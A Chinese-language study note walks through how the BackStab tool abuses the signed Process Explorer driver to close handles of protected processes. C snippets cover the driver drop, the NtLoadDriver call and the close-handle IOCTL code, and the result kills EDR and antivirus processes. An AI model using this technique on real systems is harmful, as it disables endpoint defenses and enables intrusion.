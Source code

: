 ```yaml
---
title: EdrKiller
tags: Tools,Windows,Bypass
---
```


## 起因

通过阅读 [BackStab](https://github.com/Yaxser/Backstab) 的源码以及简介有感，学习一下该工具的思路

根据 BackStab 的介绍，整个流程为：

> #### OpSec
>
> Here is a quick rundown of what happens
>
> 1. Embedded driver is dropped to disk
> 2. Registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services is created
> 3. The privilege SE_PRIVILEGE_ENABLED is acquired because it is necessary to load the driver
> 4. Driver is loaded using NtLoadDriver to avoid creating a service
> 5. The created Registry key is deleted (service not visible during execution)
> 6. Communication with the driver is via using DeviceIoControl
> 7. For handle enumeration, NtQuerySystemInformation is called
>
> #### What you should also know
>
> 1. The behavior of the tool mimics that of ProcExp. ProcExp drops the driver to the disk, create registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services, calls NtLoadDriver, and then delete the registry key
> 2. You can specify the location to which the driver is dropped and the service name
> 3. When done, the app will unload the driver. The driver is unloaded by first re-creating the registry keys and then calling NtUnloadDriver
> 4. The loaded driver is signed by MS
> 5. The process does not attempt to directly kill protected processes handles, it instructs ProcExp driver to kill them. You won't be accused of attempting to tamper with any processes

简而言之就是加载自带微软官方签名的 ProcExp 驱动，利用其驱动函数做到 Kill EDR 的效果。

## 过程

### ProcEXP 驱动落地

加载 ProcEXP，就需要考虑 ProcEXP.sys 文件如何落地，BackStab 是采用资源文件写入磁盘的方式，落地一个 ProcEXP 文件，然后注册注册表时使用 ProcEXP 的路径，当然还可以直接上传一个 ProcEXP.sys 文件。这里还是复现它的操作：

+ 添加资源文件 –> 导入 ProcEXP.sys

  ![image-20210627190230590](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095819.png)

  ![image-20210627190242606](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095821.png)

+ 操作资源文件落地

  这一套其实也是标准流程，利用操作资源的多个 API 达到释放资源的效果

  + 首先用 FindResource 函数确定资源位置

    ```c
    HRSRC FindResourceA(
      HMODULE hModule,	//NULL 表示当前模块或进程
      LPCSTR  lpName,	//MAKEINTRESOURCE(ID)
      LPCSTR  lpType
    );
    ```

  + LoadResource 加载资源到内存中。

    ```c
    HGLOBAL LoadResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + LockResource 检索指向内存中指定资源的指针。

    ```c
    LPVOID LockResource(
      HGLOBAL hResData
    );
    ```

  + SizeofResource 计算资源大小

    ```
    DWORD SizeofResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + CreateFile 和 WriteFile 达到创建和写入的目的

（这种方法应该也可以用做免杀）

![image-20210627195746188](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095824.png)

### 加载驱动

作者在加载驱动这一块做了描述，为了避免创建服务，使用了 NtLoadDriver，但是 NtLoadDriver 是内核态函数，要调用的话就需要使用 ntdll.dll：

```
NT_LOAD_DRIVER NtLoadDriver = (NT_LOAD_DRIVER)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtLoadDriver");
```

NtLoadDriver 函数的参数是注册表，在加载前还需要注册一个注册表，路径为 `HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Services\\ProcEXP`

```
status = RegCreateKeyExW(HKEY_LOCAL_MACHINE, regPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
status = RegSetValueEx(hKey, L"Type", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ErrorControl", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"Start", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ImagePath", 0, REG_SZ, (const BYTE*)driverPath, (DWORD)(sizeof(wchar_t) * (wcslen(driverPath) + 1)));
```

![image-20210627211804360](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095827.png)

此时再调用 NtLoadDriver 加载驱动：

![image-20210628105357376](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095829.png)

### 连接驱动

ProcEXP驱动已经加载完成后，就需要连接该驱动，以便使用驱动的导出函数 Kill 进程。

```
HANDLE hProcExp = CreateFileA("\\\\.\\PROCEXP152", GENERIC_ALL, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

连接使用的 CreateFileA，此 API 连接驱动时，驱动名称格式默认为 `\\\\.\\DeviceName`，这里的 DeviceName 并不是 PROCEXP，通过火绒剑查看：

![image-20210628135833251](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095832.png)实际连接应该为 PROCEXP152

### 获取保护进程句柄

任务管理器直接关闭 EDR 是无法关闭的：

![image-20210628145917986](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095834.png)

原因就是该进程有保护进程，所以要想 Kill EDR，就需要找到保护进程，参考[这篇文章](https://www.cnblogs.com/zmlctt/p/3979108.html)，简要了解一下隐藏进程和保护进程的概念。 

使用 DeviceIoControl 获取保护进程句柄：

```
DeviceIoControl(hProcExp, IOCTL_OPEN_PROTECTED_PROCESS_HANDLE, (LPVOID)&ulPID, sizeof(ulPID),&hProtectedProcess,sizeof(HANDLE),&dwBytesReturned,NULL);
```

### 获取保护进程PID下的所有句柄

先是使用了 NtQuerySystemInformation，这个 API 可以检索系统信息，包括系统进程、线程相关，任务管理器使用的就是这个 API

```c
fNtQuerySystemInformation _NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
```

利用这个 API 获取了系统内所有句柄信息，再去与之前保护进程句柄对应的 Pid 进行比较，找到对应的句柄信息，

```c
if (handleInfo.ProcessId == dwPID) 
{
			if (i % 15 == 0)
			{
				DWORD dwProcStatus = 0;
				GetExitCodeProcess(hProcess, &dwProcStatus);
				if (dwProcStatus != STILL_ACTIVE)
				{
					return;
				}
			}
			ProcExpKillHandle(dwPID, handleInfo.Handle);
		}
```

判断成功后会调用 ProcExpKillHandle 函数，这个函数是作者自己写的，目的就是关闭这个进程的句柄以达到关闭进程的目的，也是工具的核心。

但是在这之前还有一个 i % 15 == 0 的判断，这个判断的目的是每隔 15 个 Handle 检查一次进程是不是已经关闭了，这个数字可以随便调，其目的就是为了在已经关闭进程后能停止循环。

### 利用 ProcEXP 驱动发送 关闭句柄指令

ProcExpKillHandle 函数分为两部分，后一部分是通过 DeviceIoControl 发送 IOCTL_CLOSE_HANDLE 指令，前一部分就是针对这个指令所需要的各种参数。

```
DeviceIoControl(hProcExpDevice, IOCTL_CLOSE_HANDLE, (LPVOID)&ctrl, sizeof(PROCEXP_DATA_EXCHANGE), NULL,0,NULL,NULL);
```

DeviceIoControl 的第二个参数是操作的控制代码，也就是调用驱动内函数时的调用代码，BackStab 的作者应该是已经把 ProcEXP.sys 逆完了，已经了解了关闭句柄的控制代码以及所需参数：

```c
#define IOCTL_CLOSE_HANDLE 2201288708

typedef struct _ioControl
{
	ULONGLONG ulPID;
	PVOID lpObjectAddress;
	ULONGLONG ulSize;
	ULONGLONG ulHandle;
} PROCEXP_DATA_EXCHANGE, * PPROCEXP_DATA_EXCHANGE;
```

## 结果

根据上面的过程凑吧凑吧也能凑出一个只有删除功能的 EdrKiller

以火绒举例：

![image-20210629093739324](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095838.png)

![image-20210629093822512](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095839.png)
